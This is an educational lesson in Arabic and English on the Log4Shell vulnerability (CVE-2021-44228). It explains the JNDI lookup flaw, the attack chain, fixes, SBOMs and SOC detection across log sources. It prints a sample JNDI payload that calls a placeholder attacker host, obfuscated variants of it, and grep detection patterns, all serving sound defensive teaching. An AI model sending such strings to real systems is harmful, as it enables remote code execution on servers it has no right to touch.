






| Topic | Level | Reading Time | Prerequisites |
|---|---|---|---|
| Log4Shell Case Study (CVE-2021-44228) | Intermediate | ~20 min | Vulnerability Assessment and Risk Scoring, Core Log Types and Web Server Logs |

> **الهدف من الـ Section ده:**  
> هتفهم ليه ثغرة Log4Shell خدت أعلى درجة CVSS ممكنة، وإزاي سطر log واحد كفاية لتنفيذ كود عن بُعد، وإيه الإصلاح والـ workarounds، وإزاي الـ SOC بيكتشف الاستغلال من عدة مصادر في نفس الوقت، وإزاي الـ GRC بيشوف نفس الحادثة من زاوية الخطر والقرار.


## Learning Objectives

By the end of this section, you will be able to:

- State the key facts about **Log4Shell**: identifier, CVSS score, disclosure date, and why it scored the maximum.
- Explain why the exposure was enormous and how it connects back to **asset inventory**.
- Explain the design feature (**JNDI lookup**) and the flaw that turned it into a vulnerability.
- Walk through the six steps of the attack chain, from crafted string to **remote code execution**.
- List the permanent fix, the workarounds, and the lesson about **SBOM**.
- Describe where a SOC analyst looks for evidence: web logs, obfuscated variants, outbound traffic, DNS, endpoint telemetry, and application logs.
- Explain why detection and risk scoring need each other.

## Table of Contents

- [Learning Objectives](#learning-objectives)
- [Log4Shell at a Glance](#log4shell-at-a-glance)
  - [Key Facts](#key-facts)
  - [Why the Score Is the Maximum](#why-the-score-is-the-maximum)
  - [Why the Exposure Was Enormous](#why-the-exposure-was-enormous)
- [Why Log4Shell Happened](#why-log4shell-happened)
  - [The Feature](#the-feature)
  - [The Protocols](#the-protocols)
  - [The Flaw](#the-flaw)
- [How the Attack Works](#how-the-attack-works)
- [Fix and Mitigation](#fix-and-mitigation)
  - [The Permanent Fix](#the-permanent-fix)
  - [Workarounds](#workarounds)
  - [The SBOM Lesson](#the-sbom-lesson)
- [SOC and GRC Perspectives](#soc-and-grc-perspectives)
- [Detecting Log4Shell: Where to Look](#detecting-log4shell-where-to-look)
  - [Proxy, WAF, and Web Server Logs](#proxy-waf-and-web-server-logs)
  - [Obfuscated Variants](#obfuscated-variants)
  - [Outbound Network Traffic From Servers](#outbound-network-traffic-from-servers)
- [Detecting Log4Shell: More Evidence and Tools](#detecting-log4shell-more-evidence-and-tools)
  - [DNS Logs](#dns-logs)
  - [Endpoint Telemetry](#endpoint-telemetry)
  - [Application Logs](#application-logs)
  - [Security Solutions and Writing Rules](#security-solutions-and-writing-rules)
- [A Simple Triage Search](#a-simple-triage-search)
- [Career Path Connections](#career-path-connections)
- [Key Terms Glossary](#key-terms-glossary)
- [Summary](#summary)

## Log4Shell at a Glance

### Key Facts

| Identifier | CVSS Score | Disclosed |
|---|---|---|
| `CVE-2021-44228` | 10.0 | December 2021 |

الاسم الشائع للثغرة هو **Log4Shell**، وهي في مكتبة **Apache Log4j**.

### Why the Score Is the Maximum

الثغرة **قابلة للاستغلال عن بُعد**، و**سهلة التنفيذ جداً**، وقادرة على **اختراق النظام بالكامل، أو سرقة الداتا، أو تعطيله**.

### Why the Exposure Was Enormous

**Log4j** مكتبة logging شهيرة جداً في **Java**، ومدمجة في web apps وخدمات cloud وحتى **أدوات أمنية**. مؤسسات كتير **ماكانتش تعرف فين Log4j شغال عندها**، وده مرتبط مباشرة بموضوع الـ asset inventory.



> [!NOTE]
> This is the practical proof of the first section of Vulnerability Assessment and Risk Scoring: you cannot patch what you do not know you have. A library buried inside another product is one of the hardest assets to inventory, which is exactly why Log4Shell hurt so many organizations.

## Why Log4Shell Happened

### The Feature

كان في Log4j ميزة اسمها **JNDI lookup**، بتسمح لرسايل الـ log إنها **تجيب داتا من سيرفرات خارجية**.

### The Protocols

الـ **JNDI (Java Naming and Directory Interface)** بيقدر يتكلم مع خدمات زي **LDAP** و**RMI**.

### The Flaw

Log4j كان بيعالج الـ **lookups جوه رسايل الـ log نفسها**، والرسايل دي غالباً بتحتوي على **مدخلات المهاجم**، زي الـ headers أو أسماء المستخدمين.

**النتيجة:** مجرد إن **string خبيثة تتسجّل** كان كفاية عشان يتنفذ الـ lookup.



> [!IMPORTANT]
> The root cause is a classic input-handling failure: trusted processing applied to untrusted data. The logging library treated attacker-controlled text as instructions instead of plain text, which is the same category of mistake behind the injection attacks covered in the Input Attacks and Injection category.

## How the Attack Works

| # | Step |
|---|---|
| 1 | المهاجم بيبعت **string مصنوعة** (crafted) في request، سواء في URL أو User-Agent header أو form field |
| 2 | السيرفر المعرّض للثغرة **بيسجّل** المدخل ده |
| 3 | Log4j بيشوف نمط `${jndi:...}` وبينفذ الـ **lookup** |
| 4 | السيرفر **بيتصل للخارج** بـ LDAP server بيتحكم فيه المهاجم |
| 5 | سيرفر المهاجم **بيرجّع reference** لـ Java class خبيثة |
| 6 | الضحية **بتحمّل وبتنفّذ** الـ class، فالمهاجم بيحصل على **remote code execution (RCE)** |

مثال على الـ payload (بعنوان placeholder):

```text
${jndi:ldap://attacker.com/a}
```



**الخطورة جت من إن المهاجم محتاج أقل حاجة ممكنة:** من غير authentication، **string واحدة**، و**سطر log واحد**.

> [!WARNING]
> Notice step 4: the vulnerable server itself initiates an outbound connection. A server that normally only answers requests suddenly reaching out to the internet is the most reliable artifact of this attack, and it is the reason outbound traffic monitoring appears twice in the detection sections below.

## Fix and Mitigation

### The Permanent Fix

**الترقية لـ Log4j 2.17.1 أو أحدث** (Java 8). الـ patches الأقدم (**2.15.0 و2.16.0**) اتلاقت **ناقصة**، فاستخدم دايماً الأحدث.

### Workarounds

لما التحديث مش ممكن فوراً:

| Workaround | Detail |
|---|---|
| **عطّل message lookups** أو **شيل الـ `JndiLookup` class** من المكتبة | بيقفل الميزة المعرّضة |
| **احجب outbound LDAP traffic** من السيرفرات عند الـ firewall | بيمنع الخطوة 4 |
| **WAF rules** تحجب أنماط `${jndi:` | **كطبقة مؤقتة بس** |

### The SBOM Lesson

**الدرس المستفاد:** استخدم **Software Bill of Materials (SBOM)** عشان تعرف أنهي تطبيقات فيها أنهي مكتبات.



> [!TIP]
> An SBOM is the software-level version of an asset inventory: instead of listing servers, it lists the libraries inside each application. When the next library-level vulnerability appears, the SBOM answers "are we affected, and where?" in minutes instead of weeks.

> [!NOTE]
> Version guidance changes as advisories are updated. Always confirm the fixed version for your Java version against the official Apache Log4j security page rather than relying on a number from a lecture.

## SOC and GRC Perspectives

| Perspective | Core Question |
|---|---|
| **SOC: detection and log artifacts** | إيه اللي حصل، وإزاي نشوفه؟ |
| **GRC: risk and CVSS** | قد إيه خطيرة، وإيه القرار التجاري؟ |

**الاتنين مطلوبين.** الـ detection من غير سياق خطر بيضيّع مجهود، والـ risk scoring من غير detection بيسيبك أعمى.



## Detecting Log4Shell: Where to Look

**التحدي:** كـ SOC analyst، إزاي هتكتشف الاستغلال؟ افترض إن التوصيل بيتم عن طريق URL أو HTTP header.

### Proxy, WAF, and Web Server Logs

دوّر على requests فيها `${jndi:` في الـ **URL** أو **User-Agent** أو **Referer** أو **X-Forwarded-For** أو أي header تاني.

### Obfuscated Variants

المهاجمين بيتهربوا من الـ string matching البسيط عن طريق **nested lookups**، زي:

```text
${${lower:j}ndi:...}
${${::-j}${::-n}di:...}
```

**قواعد الكشف لازم تتعامل مع الـ obfuscation.**

### Outbound Network Traffic From Servers

اتصالات غير متوقعة بالإنترنت على **LDAP (389)** أو **RMI (1099)** أو ports غريبة زي **1389**. **السيرفرات نادراً بتبدأ الاتصالات دي بنفسها.**

| Evidence Source | What to Look For |
|---|---|
| Web server, proxy, WAF logs | `${jndi:` في الـ URL أو الـ headers (User-Agent، Referer، X-Forwarded-For) |
| Obfuscated variants | Nested lookups زي `${${lower:j}ndi:...}` |
| Outbound traffic | اتصالات صادرة من السيرفر على 389 أو 1099 أو 1389 |

> [!NOTE]
> The list of headers worth searching includes X-Forwarded-For, which ties back to Core Log Types and Web Server Logs: a header you might otherwise treat as trustworthy metadata is also attacker-controlled input.

## Detecting Log4Shell: More Evidence and Tools

### DNS Logs

استعلامات لـ **domains غير مألوفة أو جديدة التسجيل**، أو لـ **out-of-band testing services**، من application servers.

### Endpoint Telemetry

الـ **Java process** بيطلّع child processes غير متوقعة زي `sh` و`bash` و`curl` و`wget` و`powershell`.

### Application Logs

الـ string الخبيثة نفسها بتظهر في ملف الـ log، **مع رسايل أخطاء عن JNDI lookups فاشلة**.

### Security Solutions and Writing Rules

الحلول الأمنية اللي بتحلل وتفلتر الـ URLs: **WAF، proxy، IDS، IPS، NGFW، وSIEM correlation**.

استخدم أدوات **AI** تساعدك تكتب detection rules، **لكن تأكد إنك فاهم كل rule بتطابق إيه فعلاً**.



> [!IMPORTANT]
> No single source is enough, and this is the same correlation principle from Network and Authentication Logs. A string in a web log shows an attempt. An outbound connection shows the server was tricked. A child process spawned by Java shows code actually ran. Together they tell you whether the attempt succeeded.

## A Simple Triage Search

مثال بسيط للفرز الأولي على web server log (توضيحي، مش بديل عن SIEM rule حقيقية):

```bash
# 1. The plain string
grep -F '${jndi:' /var/log/nginx/access.log

# 2. A looser pattern for nested-lookup obfuscation (expect false positives)
grep -E '\$\{[^}]*(lower|upper|::-)[^}]*\}' /var/log/nginx/access.log
```

> [!WARNING]
> This is a triage aid, not a detection rule. Attackers can nest lookups far deeper than a simple pattern covers, and a string appearing in a log proves only an attempt, not a successful exploit. Always confirm with the outbound-traffic and endpoint evidence above.

## Career Path Connections

| Career Path | How This Topic Applies |
|---|---|
| SOC Analyst | Hunts for the string, obfuscated variants, outbound LDAP, and suspicious Java child processes across several log sources |
| Penetration Tester | Library-level vulnerabilities like this are why authorized assessments check third-party components, not only custom code |
| GRC | Combines the CVSS 10.0 score with asset exposure to drive an emergency patching decision, and uses SBOMs to answer "are we affected" |
| Cloud Security | Cloud workloads and containers embed libraries too, so SBOMs and image scanning are the cloud-native answer |

## Key Terms Glossary

| Term | Definition |
|---|---|
| Log4j | A widely used Apache Java logging library |
| Log4Shell | The common name for CVE-2021-44228 in Log4j |
| JNDI | Java Naming and Directory Interface, a Java API able to talk to services such as LDAP and RMI |
| LDAP | Lightweight Directory Access Protocol, commonly on port 389 |
| RMI | Java Remote Method Invocation, commonly on port 1099 |
| RCE | Remote Code Execution, running attacker-chosen code on a victim system |
| Nested Lookup | A lookup placed inside another lookup, used to obfuscate a malicious string |
| SBOM | Software Bill of Materials, a list of the components and libraries inside software |
| Out-of-Band Testing Service | An external service used to confirm that a target made an outbound request |

## Summary

- **Log4Shell is CVE-2021-44228, CVSS 10.0, disclosed December 2021:** عن بُعد، وسهلة، وقادرة على اختراق كامل.
- **The exposure was huge because nobody knew where Log4j ran:** مكتبة مدمجة في تطبيقات وخدمات وأدوات أمنية.
- **A feature became a flaw:** JNDI lookup اتعالج جوه رسايل الـ log اللي فيها مدخلات المهاجم.
- **The attack needs one string and one log line:** ستة خطوات من الـ crafted string لحد RCE.
- **The permanent fix is upgrading to the latest fixed release:** الـ patches الأقدم (2.15.0 و2.16.0) كانت ناقصة.
- **Workarounds buy time:** عطّل الـ lookups، احجب outbound LDAP، وWAF كطبقة مؤقتة بس.
- **An SBOM answers "where is this library"** قبل ما الحادثة الجاية تحصل.
- **Detection draws on six sources:** web logs، obfuscated variants، outbound traffic، DNS، endpoint، وapplication logs.
- **SOC and GRC views both matter:** detection من غير سياق خطر بيضيّع مجهود، وscoring من غير detection بيسيبك أعمى.

